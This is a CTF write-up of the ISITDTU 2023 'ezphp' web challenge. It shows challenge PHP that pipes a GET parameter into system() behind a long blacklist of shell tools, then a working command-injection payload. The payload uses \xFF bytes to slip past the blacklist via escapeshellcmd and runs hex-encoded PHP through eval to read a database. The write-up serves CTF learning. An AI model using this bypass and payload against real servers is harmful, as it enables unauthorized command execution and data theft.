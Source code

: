 ```yaml
---
layout: post
title: ISITDTU CTF Qualifiers 2023 - ezphp Writeup
excerpt: "Despite being titled ezphp, this challenge was anything but easy. Let's take a look at how I solved it."
categories: [Writeups]
tags: [web]
---
```

Despite being titled ezphp, this challenge was anything but easy. It took be beyond the end of the CTF to finish, but it was a fun challenge nonetheless. 

We are provided a link and some source code. The source code is as follows:

```php
<html>
 <head>
  <title> Debug Page...</title>

  <meta charset="utf-8">

  <link rel="stylesheet" href="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/css/bootstrap.min.css">
  <script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.0/jquery.min.js"></script>
  <script src="http://maxcdn.bootstrapcdn.com/bootstrap/3.3.6/js/bootstrap.min.js"></script>

</head>
<body>
    <div class="container">
    <?php
    error_reporting(0);
    $conn = mysqli_connect('db', 'user', 'test', "dockerExample");


    $query = 'SELECT * From Person';
    $result = mysqli_query($conn, $query);

    echo '<table class="table table-striped">';
    echo '<thead><tr><th></th><th>id</th><th>name</th></tr></thead>';
    while($value = $result->fetch_array(MYSQLI_ASSOC)){
        echo '<tr>';
        echo '<td><a href="#"><span class="glyphicon glyphicon-search"></span></a></td>';
        foreach($value as $element){
            echo '<td>' . $element . '</td>';
        }

        echo '</tr>';
    }
    echo '</table>';

    $result->close();

    mysqli_close($conn);

    $blacklists = ["chgrp","mknod","run-parts","vdir","bunzip2","chmod","fgrep","mktemp","sed","wdctl","bzcat","chown","findmnt","more","bzcmp","cp","grep","mount","sleep","zcat","bzdiff","bash","gunzip","mountpoint","stty","zcmp","bzegrep","date","gzexe","mv","su","zdiff","bzexe","dd","gzip","nisdomainname","sync","zegrep","bzfgrep","df","hostname","pidof","tar","zfgrep","bzgrep","dir","kill","ps","tempfile","zforce","bzip2","dmesg","ln","pwd","touch","zgrep","bzip2recover","dnsdomainname","login","rbash","true","zless","bzless","domainname","ls","readlink","umount","zmore","bzmore","echo","lsblk","rm","uname","znew","cat","egrep","mkdir","rmdir","uncompress","m4","ab","make","addpart","make-first-existing-target","addr2line","mawk","apt","mcookie","apt-cache","md5sum","apt-cdrom","md5sum.textutils","apt-config","mesg","apt-get","mkfifo","apt-key","namei","apt-mark","nawk","ar","newgrp","arch","nice","as","nl","autoconf","nm","autoheader","nohup","autom4te","nproc","autoreconf","nsenter","autoscan","numfmt","autoupdate","objcopy","awk","objdump","b2sum","od","base32","open","base64","openssl","basename","pager","basenc","partx","bashbug","passwd","paste","patch","c89","pathchk","c89-gcc","perl","c99","c99-gcc","perl5.32.1","c_rehash","perlbug","captoinfo","perldoc","catchsegv","perlivp","cc","perlthanks","chage","pgrep","chattr","piconv","chcon","pidwait","checkgid","pinky","chfn","pkg-config","choom","pkill","chrt","pl2pm","chsh","pldd","cksum","pmap","clear","pod2html","clear_console","pod2man","cmp","pod2text","comm","pod2usage","compose","podchecker","corelist","cpan","printenv","cpp","cpp-10","prlimit","csplit","prove","curl","ptar","cut","ptardiff","deb-systemd-helper","ptargrep","deb-systemd-invoke","ptx","debconf","pwdx","debconf-apt-progress","ranlib","debconf-communicate","re2c","debconf-copydb","re2go","debconf-escape","readelf","debconf-set-selections","realpath","debconf-show","renice","delpart","reset","diff","resizepart","diff3","rev","dircolors","rgrep","dirname","rotatelogs","dpkg","rpcgen","dpkg-architecture","run-mailcap","dpkg-buildflags","runcon","dpkg-buildpackage","savelog","dpkg-checkbuilddeps","script","dpkg-deb","scriptlive","dpkg-distaddfile","scriptreplay","dpkg-divert","sdiff","dpkg-genbuildinfo","see","dpkg-genchanges","seq","dpkg-gencontrol","setarch","dpkg-gensymbols","setpriv","dpkg-maintscript-helper","setsid","dpkg-mergechangelogs","setterm","dpkg-name","sg","dpkg-parsechangelog","sha1sum","dpkg-query","sha224sum","dpkg-realpath","sha256sum","dpkg-scanpackages","sha384sum","dpkg-scansources","sha512sum","dpkg-shlibdeps","shasum","dpkg-source","shred","dpkg-split","shuf","dpkg-statoverride","size","dpkg-trigger","skill","dpkg-vendor","slabtop","du","snice","dwp","sort","edit","splain","elfedit","split","enc2xs","stat","encguess","stdbuf","env","streamzip","expand","strings","expiry","strip","expr","sum","factor","tabs","faillog","tac","fallocate","tail","fcgistarter","taskset","file","tee","fincore","test","find","tic","flock","timeout","fmt","tload","fold","toe","free","top","touch","tput","gcc","tr","gcc-10","truncate","gcc-ar","tset","gcc-ar-10","tsort","gcc-nm","tty","gcc-nm-10","tzselect","gcc-ranlib","unexpand","gcc-ranlib-10","uniq","gcov","unlink","gcov-10","unlzma","gcov-dump","unshare","gcov-dump-10","unxz","gcov-tool","update-alternatives","gcov-tool-10","uptime","gencat","users","getconf","utmpdump","getent","vmstat","getopt","w","gmake","wall","gold","watch","gpasswd","wc","gpgv","whereis","gprof","which","groups","who","h2ph","whoami","h2xs","head","hostid","htcacheclean","htdbm","htdigest","htpasswd","i386","iconv","id","ifnames","infocmp","infotocap","install","instmodsh","ionice","ipcmk","ipcrm","ipcs","ischroot","join","json_pp","last","lastb","lastlog","ld","ld.bfd","ld.gold","ldd","libnetcfg","link","linux32","linux64","locale","localedef","logger","logname","logresolve","lsattr","lscpu","lsipc","lslocks","xargs","lslogins","xsubpp","lsmem","xz","lsns","xzcat","lto-dump-10","xzcmp","lzcat","xzdiff","lzcmp","xzegrep","lzdiff","xzfgrep","lzegrep","xzgrep","lzfgrep","xzless","lzgrep","xzmore","lzless","yes","lzma","zdump","lzmainfo","zipdetails","lzmore","a2disconf","dpkg-reconfigure","policy-rc.d","a2dismod","e2freefrag","pwck","a2dissite","e4crypt","pwconv","a2enconf","e4defrag","pwunconv","a2enmod","faillock","readprofile","a2ensite","fdformat","remove-shell","a2query","filefrag","rmt","add-shell","groupadd","rmt-tar","addgroup","groupdel","rtcwake","adduser","groupmems","service","apache2","groupmod","split-logfile","apache2ctl","grpck","tarcat","apachectl","grpconv","tzconfig","check_forensic","grpunconv","update-ca-certificates","chgpasswd","httxt2dbm","update-mime","chmem","iconvconfig","update-passwd","chpasswd","invoke-rc.d","update-rc.d","chroot","ldattach","useradd","cpgr","userdel","cppw","newusers","usermod","delgroup","nologin","vigr","deluser","pam-auth-update","vipw","dpkg-fsys-usrunmess","pam_getenv","zic","dpkg-preconfigure","pam_timestamp_check","apache2-foreground","docker-php-ext-install","peardev","php","docker-php-entrypoint","docker-php-source","pecl","php-config","docker-php-ext-configure","freetype-config","phar","phpize","docker-php-ext-enable","pear","phar.phar","agetty","e2mmpstatus","fstrim","mkfs.ext2","swaplabel","badblocks","e2scrub","getty","mkfs.ext3","swapoff","blkdiscard","e2scrub_all","hwclock","mkfs.ext4","swapon","blkid","e2undo","installkernel","mkfs.minix","switch_root","blkzone","findfs","isosize","mkhomedir_helper","sysctl","blockdev","fsck","killall5","mkswap","tune2fs","chcpu","fsck.cramfs","ldconfig","pivot_root","unix_chkpwd","ctrlaltdel","fsck.ext2","logsave","raw","unix_update","debugfs","fsck.ext3","losetup","resize2fs","wipefs","dumpe2fs","fsck.ext4","mke2fs","runuser","zramctl","e2fsck","fsck.minix","mkfs","shadowconfig","e2image","fsfreeze","mkfs.bfs","start-stop-daemon","e2label","fstab-decode","mkfs.cramfs","sulogin"];
 
	$cmd = $_GET['cmd']; 
    foreach ($blacklists as $blacklist) {
    	$pattern = "/$blacklist/";
		if (preg_match($pattern, $cmd)) {
			die("Blacklist");
		}
	}

    system(escapeshellcmd($cmd));

    ?>
    </div>
</body>
</html>
```

We have a lot to look at, not only do have an extrmemly extensive blacklist, but we also have a database conneciton. 

Looking at the sql file we are given, we can see that there are two tables, Person and Flag_is_secret. 


```sql
SET SQL_MODE = "NO_AUTO_VALUE_ON_ZERO";
SET time_zone = "+00:00";


/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8mb4 */;


CREATE TABLE `Person` (
  `id` int(11) NOT NULL,
  `name` varchar(20) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=latin1;

CREATE TABLE `Flag_is_secret` (
  `id` int(11) NOT NULL,
  `flagss1337` varchar(20) NOT NULL
) ENGINE=InnoDB DEFAULT CHARSET=latin1;

INSERT INTO `Person` (`id`, `name`) VALUES
(1, 'Doraemon'),
(2, 'Conan'),
(3, 'Hanamichi');

INSERT INTO `Flag_is_secret` (`id`, `flagss1337`) VALUES
(1, 'NA'),
(2, 'NA'),
(3, 'ISITDTU{fake_flag}');

/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;

```

We can see that the flag is stored in the Flag_is_secret table, but we unfornately cannot access it directly. This is where the cmd parameter comes in. 

We can use the cmd parameter to run commands on the server. However, we are limited by the blacklist.
    
```php
    $blacklists = ["chgrp","mknod","run-parts","vdir","bunzip2","chmod","fgrep","mktemp","sed","wdctl","bzcat","chown","findmnt","more","bzcmp","cp","grep","mount","sleep","zcat","bzdiff","bash","gunzip","mountpoint","stty","zcmp","bzegrep","date","gzexe","mv","su","zdiff","bzexe","dd","gzip","nisdomainname","sync","zegrep","bzfgrep","df","hostname","pidof","tar","zfgrep","bzgrep","dir","kill","ps","tempfile","zforce","bzip2","dmesg","ln","pwd","touch","zgrep","bzip2recover","dnsdomainname","login","rbash","true","zless","bzless","domainname","ls","readlink","umount","zmore","bzmore","echo","lsblk","rm","uname","znew","cat","egrep","mkdir","rmdir","uncompress","m4","ab","make","addpart","make-first-existing-target","addr2line","mawk","apt","mcookie","apt-cache","md5sum","apt-cdrom","md5sum.textutils","apt-config","mesg","apt-get","mkfifo","apt-key","namei","apt-mark","nawk","ar","newgrp","arch","nice","as","nl","autoconf","nm","autoheader","nohup","autom4te","nproc","autoreconf","nsenter","autoscan","numfmt","autoupdate","objcopy","awk","objdump","b2sum","od","base32","open","base64","openssl","basename","pager","basenc","partx","bashbug","passwd","paste","patch","c89","pathchk","c89-gcc","perl","c99","c99-gcc","perl5.32.1","c_rehash","perlbug","captoinfo","perldoc","catchsegv","perlivp","cc","perlthanks","chage","pgrep","chattr","piconv","chcon","pidwait","checkgid","pinky","chfn","pkg-config","choom","pkill","chrt","pl2pm","chsh","pldd","cksum","pmap","clear","pod2html","clear_console","pod2man","cmp","pod2text","comm","pod2usage","compose","podchecker","corelist","cpan","printenv","cpp","cpp-10","prlimit","csplit","prove","curl","ptar","cut","ptardiff","deb-systemd-helper","ptargrep","deb-systemd-invoke","ptx","debconf","pwdx","debconf-apt-progress","ranlib","debconf-communicate","re2c","debconf-copydb","re2go","debconf-escape","readelf","debconf-set-selections","realpath","debconf-show","renice","delpart","reset","diff","resizepart","diff3","rev","dircolors","rgrep","dirname","rotatelogs","dpkg","rpcgen","dpkg-architecture","run-mailcap","dpkg-buildflags","runcon","dpkg-buildpackage","savelog","dpkg-checkbuilddeps","script","dpkg-deb","scriptlive","dpkg-distaddfile","scriptreplay","dpkg-divert","sdiff","dpkg-genbuildinfo","see","dpkg-genchanges","seq","dpkg-gencontrol","setarch","dpkg-gensymbols","setpriv","dpkg-maintscript-helper","setsid","dpkg-mergechangelogs","setterm","dpkg-name","sg","dpkg-parsechangelog","sha1sum","dpkg-query","sha224sum","dpkg-realpath","sha256sum","dpkg-scanpackages","sha384sum","dpkg-scansources","sha512sum","dpkg-shlibdeps","shasum","dpkg-source","shred","dpkg-split","shuf","dpkg-statoverride","size","dpkg-trigger","skill","dpkg-vendor","slabtop","du","snice","dwp","sort","edit","splain","elfedit","split","enc2xs","stat","encguess","stdbuf","env","streamzip","expand","strings","expiry","strip","expr","sum","factor","tabs","faillog","tac","fallocate","tail","fcgistarter","taskset","file","tee","fincore","test","find","tic","flock","timeout","fmt","tload","fold","toe","free","top","touch","tput","gcc","tr","gcc-10","truncate","gcc-ar","tset","gcc-ar-10","tsort","gcc-nm","tty","gcc-nm-10","tzselect","gcc-ranlib","unexpand","gcc-ranlib-10","uniq","gcov","unlink","gcov-10","unlzma","gcov-dump","unshare","gcov-dump-10","unxz","gcov-tool","update-alternatives","gcov-tool-10","uptime","gencat","users","getconf","utmpdump","getent","vmstat","getopt","w","gmake","wall","gold","watch","gpasswd","wc","gpgv","whereis","gprof","which","groups","who","h2ph","whoami","h2xs","head","hostid","htcacheclean","htdbm","htdigest","htpasswd","i386","iconv","id","ifnames","infocmp","infotocap","install","instmodsh","ionice","ipcmk","ipcrm","ipcs","ischroot","join","json_pp","last","lastb","lastlog","ld","ld.bfd","ld.gold","ldd","libnetcfg","link","linux32","linux64","locale","localedef","logger","logname","logresolve","lsattr","lscpu","lsipc","lslocks","xargs","lslogins","xsubpp","lsmem","xz","lsns","xzcat","lto-dump-10","xzcmp","lzcat","xzdiff","lzcmp","xzegrep","lzdiff","xzfgrep","lzegrep","xzgrep","lzfgrep","xzless","lzgrep","xzmore","lzless","yes","lzma","zdump","lzmainfo","zipdetails","lzmore","a2disconf","dpkg-reconfigure","policy-rc.d","a2dismod","e2freefrag","pwck","a2dissite","e4crypt","pwconv","a2enconf","e4defrag","pwunconv","a2enmod","faillock","readprofile","a2ensite","fdformat","remove-shell","a2query","filefrag","rmt","add-shell","groupadd","rmt-tar","addgroup","groupdel","rtcwake","adduser","groupmems","service","apache2","groupmod","split-logfile","apache2ctl","grpck","tarcat","apachectl","grpconv","tzconfig","check_forensic","grpunconv","update-ca-certificates","chgpasswd","httxt2dbm","update-mime","chmem","iconvconfig","update-passwd","chpasswd","invoke-rc.d","update-rc.d","chroot","ldattach","useradd","cpgr","userdel","cppw","newusers","usermod","delgroup","nologin","vigr","deluser","pam-auth-update","vipw","dpkg-fsys-usrunmess","pam_getenv","zic","dpkg-preconfigure","pam_timestamp_check","apache2-foreground","docker-php-ext-install","peardev","php","docker-php-entrypoint","docker-php-source","pecl","php-config","docker-php-ext-configure","freetype-config","phar","phpize","docker-php-ext-enable","pear","phar.phar","agetty","e2mmpstatus","fstrim","mkfs.ext2","swaplabel","badblocks","e2scrub","getty","mkfs.ext3","swapoff","blkdiscard","e2scrub_all","hwclock","mkfs.ext4","swapon","blkid","e2undo","installkernel","mkfs.minix","switch_root","blkzone","findfs","isosize","mkhomedir_helper","sysctl","blockdev","fsck","killall5","mkswap","tune2fs","chcpu","fsck.cramfs","ldconfig","pivot_root","unix_chkpwd","ctrlaltdel","fsck.ext2","logsave","raw","unix_update","debugfs","fsck.ext3","losetup","resize2fs","wipefs","dumpe2fs","fsck.ext4","mke2fs","runuser","zramctl","e2fsck","fsck.minix","mkfs","shadowconfig","e2image","fsfreeze","mkfs.bfs","start-stop-daemon","e2label","fstab-decode","mkfs.cramfs","sulogin"];
```

It is truely extensive, and it took me a while to find a bypass. I tried a lot of different things, but I eventually found a bypass. 
```
%ff
```
This bypasses the blacklist, and allows us to run commands. As we can see here we can run "php"
![](https://i.imgur.com/ZzsHzgm.png)

We now have to connect to the mysql database in order to extract the flag. We can do this by running the following command:
```php
ª$c = new mysqli('db', 'root', 'test', 'dockerExample');
$r = $c->query('SELECT * FROM The_table_you_dont_know');
while ($w = $r->fetch_assoc()) {
    print_r($w);
}
```
This php code will connect to the mysql database, and print out the contents of the table `the_table_you_dont_know` as it not actually in the `flag_is_secret` table.

We can then convert this php into hex:
`aa2463203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2027646f636b65724578616d706c6527293b0a2472203d2024632d3e7175657279282753454c454354202a2046524f4d205468655f7461626c655f796f755f646f6e745f6b6e6f7727293b0a7768696c6520282477203d2024722d3e66657463685f6173736f63282929207b0a202020207072696e745f72282477293b0a7d0a`

We can then use eval(), substr() and hex2bin() to run this php code:
```php
php -r eval(substr(hex2bin(aa2463203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2027646f636b65724578616d706c6527293b0a2472203d2024632d3e7175657279282753454c454354202a2046524f4d205468655f7461626c655f796f755f646f6e745f6b6e6f7727293b0a7768696c6520282477203d2024722d3e66657463685f6173736f63282929207b0a202020207072696e745f72282477293b0a7d0a),1));
```

Thought we still have have an issue with the blacklist. We can bypass this by using %ff. There is a flaw in PHP's escapeshellcmd() function  which stems from its handling of invalid Unicode characters, creating a security gap ripe for exploitation. Initially, the input is scanned against a blacklist via regex, which fails to match harmful strings like `ph\xFFp` due to the presence of `\xFF`. When escapeshellcmd() is invoked, it removes these invalid Unicode characters, effectively transforming the string into something like php, which bypasses the original filter. This results in a discrepant string representation at the regex and shell escaping stages, ultimately leaving the system vulnerable to command injection attacks.

The php documentation says the following are escaped by escapeshellcmd():
```
&#;`|*?~<>^()[]{}$\, \x0A and \xFF.
``` 




Keeping this bypass in mind, we can then run the following command after url encoding it:
```php
p%ffhp+-r+ev%ffal(s%ffubst%ffr(hex2bin(aa2463203d206e6577206d7973716c6928276462272c2027726f6f74272c202774657374272c2027646f636b65724578616d706c6527293b0a2472203d2024632d3e7175657279282753454c454354202a2046524f4d205468655f7461626c655f796f755f646f6e745f6b6e6f7727293b0a7768696c6520282477203d2024722d3e66657463685f6173736f63282929207b0a202020207072696e745f72282477293b0a7d0a),1))%3b
```

We can then run this command in the url, and we get the flag:
![](https://i.imgur.com/DQQFSws.png)

Even though I struggled, I learned a lot, and I had a lot of fun. I hope you enjoyed this writeup, and thank you to the ISITDTU team for hosting this CTF. See you next year!